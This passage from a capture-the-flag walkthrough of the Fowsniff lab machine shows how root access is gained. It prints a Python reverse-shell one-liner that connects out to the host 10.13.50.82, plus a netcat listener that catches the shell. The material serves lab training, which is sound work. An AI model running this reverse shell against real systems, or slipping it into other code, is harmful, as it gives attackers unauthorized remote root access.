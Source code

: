 ![Desktop View](/assets/images/fowsniff-ctf/rev.png){: width="972" height="589" }

Put this simple reverse shell script from revshells.

```bash
export RHOST="10.13.50.82";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
Reference: [https://www.revshells.com/](https://www.revshells.com/)

Setup a netcat listener to catch the reverse shell when we login via SSH to the target machine

```bash
nc -lnvp <1234>
```

Relogin via SSH to execute the script as root.

![Desktop View](/assets/images/fowsniff-ctf/root.png){: width="972" height="589" }

And now we're ROOT!

> Do not forget to find the root flag
{: .prompt-danger }